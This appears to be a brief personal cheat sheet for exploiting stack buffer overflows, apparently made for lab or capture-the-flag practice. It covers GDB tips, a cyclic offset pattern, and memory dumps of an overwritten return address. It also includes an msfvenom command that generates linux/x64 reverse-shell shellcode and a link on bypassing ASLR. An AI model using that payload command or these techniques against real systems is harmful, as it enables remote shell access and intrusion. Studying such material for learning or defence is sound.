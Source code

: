 # GDB
set var g = 42
b *0x0000000000401e4e

200 sequencei
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

## GDB Tricks
#set disassemble-next-line on

`
define hook-stop
x/1i $prevIP
x/2i $rip
x/8gx $rsp
set $prevIP = $rip
end
`

p $rdi
> 2

x $rdi
> Cannot access memory at adress 0x2


(gdb) x/8c $rbp+8
0x7fffffffdfd8: 65 'A'  101 'e' 48 '0'  65 'A'  101 'e' 49 '1'  65 'A'  101 'e'

## Build shellcode
`
msfvenom -p linux/x64/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 EXITFUNC=thread -f c -a x64 --platform linux -b "\x00\x0a"
`



# Circumvent ASLR
https://sploitfun.wordpress.com/2015/05/08/bypassing-aslr-part-i/
